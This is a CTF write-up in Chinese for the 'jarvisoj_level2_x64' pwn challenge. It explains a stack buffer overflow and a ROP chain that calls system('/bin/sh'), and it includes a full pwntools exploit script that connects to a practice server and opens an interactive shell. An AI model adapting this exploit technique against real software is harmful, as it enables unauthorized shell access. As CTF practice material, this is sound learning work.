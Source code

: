 
# jarvisoj_level2_x64

## Information

- Category: Pwn
- Points: 1

## Write-up

`vulnerable_function` 有一个 BOF，我们用它覆盖 retaddr 构造 ROP Chain，由于会返回到 `system("echo 'Hello World!'")`，我们只要想办法改掉 rdi 即可。这里没有发现获得栈地址的方法，把 `/bin/sh` 写入栈上不行。但是 IDA 搜索字符串发现程序本身包含 `/bin/sh` 字符串，没 PIE，直接拿来用。

## Exploit

```python
#!/usr/bin/env python3

from pwn import ROP, args, context, flat, p64, process, raw_input, remote

FILE = "./level2_x64"
HOST, PORT = "node5.buuoj.cn", 27792

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary


def launch():
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)
    return target


def main():
    target = launch()

    rop = ROP(elf)
    payload = flat(
        b"A" * 0x88,
        p64(rop.rdi.address),
        0x600A90,
        p64(rop.ret.address),
        elf.plt["system"],
    )

    raw_input()
    target.sendline(payload)
    target.interactive()


if __name__ == "__main__":
    main()
```

